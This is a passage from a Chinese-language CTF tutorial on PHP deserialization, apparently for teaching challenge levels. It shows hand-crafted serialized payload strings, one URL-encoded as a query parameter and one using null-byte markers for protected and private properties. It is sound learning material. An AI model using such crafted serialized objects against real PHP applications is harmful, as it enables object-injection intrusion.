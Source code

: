         // 组合起来作为 code 参数的值 (需要 URL 编码特殊字符如 &)
        // code=b=b:1;%26n=N;%26s=s:5:"IWANT";%26i=i:1;%26o=O:2:"me":1:{s:7:"a_value";s:4:"FLAG";}%26a=a:2:{s:1:"a";s:3:"Plz";s:1:"b";s:7:"Give_M3";}
        ```
*   **示例 (Level 6 - 权限修饰规则):**
    *   手动构造包含 `protected` (`\0*\0`) 和 `private` (`\0ClassName\0`) 属性的序列化字符串。
    ![权限修饰规则 1](/hello_ctf/images/Serialize9.png) (代码定义)
    ![权限修饰规则 2](/hello_ctf/images/Serialize10.png) (构造的 Payload)
    *   **Payload 示例 (需要 URL 编码空字节):**
        ```
        O:4:"Main":3:{s:14:"%00Main%00secret";s:4:"flag";s:12:"%00*%00common";s:4:"flag";s:6:"public";s:4:"flag";} 
        ```
